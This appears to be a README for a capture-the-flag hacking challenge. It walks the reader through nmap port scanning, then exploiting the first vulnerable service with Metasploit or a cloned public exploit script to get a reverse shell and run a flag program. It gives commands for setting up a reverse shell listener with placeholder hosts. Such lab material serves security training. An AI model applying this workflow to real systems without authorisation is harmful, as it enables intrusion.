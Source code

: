 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

#### Nmap
Install nmap.

For Debian/Ubuntu:

`apt-get install nmap`
 
For RedHat/CentOS:

`sudo yum install nmap`

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -p-`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports.
* `-PS`, `-PA`, `-PU` {PORT_NUMBERS}: Replace it with the ports to scan. TCP SYN/ACK or 
UDP discovery.
* `-sV`: Determine service and version info.
* `-O`: Determine OS info. 
* `-A`: Determine service/version and OS info.
* `-script` {SCRIPT_NAME}: Start the scan with the given script.
* `--script` {SCRIPT_LIST}: Start the scan with the given scripts.

For a detailed list of all parameters availible please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

#### Metasploit
If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the meterpreter to run. 

Here's how to do it:

Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results:

`search <name of the application you are looking to exploit>`

Select the exploit you are going to use from the search results:

`use <path/to/the/exploit>`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`
`set RPORT <port>`
`set LHOST <remote IP of Metasploit machine>`
`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use a public exploit available on GitHub:

First, you need to clone the repository into your attacker's machine:

`git clone <exploit_github>`

Go to the project folder and install the library dependencies:

`cd <exploit_github>`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./exploit.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`


